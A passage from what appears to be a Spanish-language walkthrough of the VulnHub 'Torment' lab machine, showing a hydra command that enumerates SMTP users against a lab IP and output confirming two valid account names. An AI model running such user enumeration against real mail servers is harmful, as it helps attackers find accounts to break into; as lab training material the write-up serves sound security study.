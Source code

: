![users](/assets/img/commons/vulnhub/torment/users.png){: .center-image }


Validamos la lista mediante hydra contra el servicio `smtp`{: .filepath}.

```bash
❯ hydra -L users smtp-enum://10.11.12.26
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-26 20:27:33
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:15/p:1), ~1 try per task
[DATA] attacking smtp-enum://10.11.12.26:25/
[25][smtp-enum] host: 10.11.12.26   login: Patrick
[25][smtp-enum] host: 10.11.12.26   login: Qiu
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-26 20:27:44
```

Tenemos dos usuarios válidos.
